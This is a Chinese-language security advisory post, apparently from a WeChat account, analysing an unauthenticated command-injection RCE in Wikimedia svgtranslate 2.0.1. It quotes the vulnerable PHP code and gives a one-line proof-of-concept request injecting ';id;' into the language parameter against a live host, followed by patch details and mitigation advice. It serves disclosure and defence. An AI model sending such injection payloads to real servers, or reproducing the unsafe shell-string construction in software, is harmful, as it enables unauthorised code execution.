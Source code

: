 #  Wikimedia/svgtranslate 2.0.1 远程代码执行   
 Ots安全   2024-06-14 11:39  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
系统概述  
  
SVGTranslate由维基媒体开发，将SVG文件转换为PNG图像，同时允许在SVG内容中进行基于语言的文本替换。此 PHP 后端应用程序的结构通过 ApiController.php 和 Renderer.php 管理功能。源代码托管在 SVGTranslate 的 GitHub 存储库中。  
  
组件路径  
- API 控制器： /src/Controller/ApiController.php  
  
- 渲染服务： /src/Service/Renderer.php  
  
漏洞描述   
  
由于 PNG 生成过程中语言参数处理不当，应用程序容易受到未经身份验证的远程代码执行 （RCE） 的影响。该漏洞源于在渲染服务中构建和执行 shell 命令的方式。  
  
**漏洞分析**  
  
切入点  
  
定义如下的 API 端点处理文件名和语言参数以提供 PNG 文件，而无需对 lang 参数进行充分验证：  
  
```
/**
 * Serve a PNG rendering of the given SVG in the given language.
 * @Route("/api/file/{filename}/{lang}.png", name="api_file", methods="GET")
 * @param string $filename
 * @param string $lang
 * @return Response
 */
public function getFile(string $filename, string $lang): Response
{
    $filename = Title::normalize($filename);
    $content = $this->svgRenderer->render($this->cache->getPath($filename), $lang);
    return new Response($content, 200, ['Content-Type' => 'image/png', 'X-File-Hash' => sha1($content)]);
}
```  
  
  
渲染器漏洞  
  
在 中 Renderer.php ， lang 该参数不安全地包含在 shell 命令中，允许命令注入：  
  
```
/**
 * Render a SVG file to PNG.
 * @param string $file Full filesystem path to the SVG file to render.
 * @param string $lang Language code for rendering.
 * @param string $outFile File path for the output PNG.
 * @throws ProcessFailedException If conversion fails.
 * @return string The PNG image contents.
 */
public function render(string $file, string $lang, ?string $outFile = null) : string
{
    $command = $this->rsvgCommand.' "$SVG"';
    if ('fallback' !== $lang) {
        $command .= " --accept-language=$lang";
    }
    if ($outFile) {
        $command .= ' > "$PNG"';
    }
    $process = Process::fromShellCommandline($command);
    $process->mustRun(null, ['SVG' => $file, 'PNG' => $outFile]);
    return $process->getOutput();
}
```  
  
  
概念验证  
  
该漏洞直接在维基媒体实例上进行了测试，演示了未经授权的命令执行，如服务器响应中的系统用户信息所示：  
  
```
GET /api/file/SI_base_unit1.svg/fr;id;.png HTTP/2
Host: svgtranslate.toolforge.org
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafV99pPHLsfwfIoMZicpXgaXEq2CwN6mrY2tnzKzuMmpZePrq5m4pIEIKicqeFCt3FD2VXHj8REGcCw/640?wx_fmt=png&from=appmsg "")  
  
- 漏洞报告日期：2024 年 5 月 22 日  
  
- 漏洞修补：2024 年 5 月 23 日  
  
https://github.com/wikimedia/svgtranslate/commit/cc0aef7b2c6ba7205329b93fb95f0bdceaa89d1c  
- 漏洞暴露：自 2024 年 2 月起  
  
**缓解建议**  
  
输入验证：对所有输入参数实施严格的验证，尤其是那些合并到命令行操作中的输入参数。  
  
安全命令执行：使用数组参数执行命令，确保命令和参数分离，防止注入。  
  
安全审计和测试：进行彻底的安全审查和渗透测试，以识别和修复潜在的漏洞。  
  
```
Wikimedia/svgtranslate 2.0.1 Remote Code Execution
https://chocapikk.com/posts/2024/svgtranslate/
```  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
